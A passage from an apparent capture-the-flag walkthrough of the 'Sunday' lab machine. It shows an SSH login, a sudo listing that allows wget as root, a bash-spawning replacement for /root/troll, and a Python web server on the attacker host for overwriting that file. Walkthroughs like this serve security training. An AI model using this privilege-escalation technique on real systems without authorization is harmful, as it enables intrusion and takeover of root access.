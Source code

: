 ```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p 22022
```

```
root@kali-[~]ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p 22022
Password: 
Last login: Fri Jul 31 17:59:59 2020
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$
```

I go ahead and run `sudo -l` again to lists the commands I can run as the `sammy` user with `sudo` privileges.

```
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

So we can use `wget` as the user `sammy`. `Wget` is a free utility for non-interactive download of files from the Web. So we can download files using `wget` with `sudo` privileges. This essentially means we can overwrite files from anywhere. So let's recall what information we have so far. We have the user `sunny` can run the file `/root/troll` with `sudo` privileges, and the user `sammy` can use `wget` with `sudo` privileges, meaning I can overwrite any files. So what if we overwrite the `troll` file and have it spawn a shell? Firstly let's check the path for bash so we can use a `shebang` at the beginning of the script so the program loader is instructed to run the program in the correct `bash` path.

```
sammy@sunday:~$ which bash
/usr/bin/bash
```

So bash is in `/usr/bin/bash`. Now I'm going to go back to my host and create a simple file named `troll`. Just use a text editor like `vim`, `nano`, `gedit`, etc. whatever floats your boat. With your text editor opened, put the following within the `troll` file:

```
#!/usr/bin/bash

bash
```

All this is doing is directing the program loader to use `/usr/bin/bash` and then run the command `bash` which will spawn a `bash shell`. Whatever user we are using when typing in `bash` will be the user the shell will spawn as. So if we run it with `sudo` this is going to be running it with `root permissions`, meaning we will be spawning a shell with as the root user. Now that we have the file all done, let's set up a simple HTTP server using Python. This HTTP server will be on our host simply hosting the directory we are currently in (the directory we just made the `troll` file in). 

```
python -m SimpleHTTPServer 80
```

Now go back to the `sammy` account and use `wget` to download the file and we can use the `-O` flag which will output the file into a specific path. The path I chose was `/root/troll` so it will overwrite the original `troll` file.
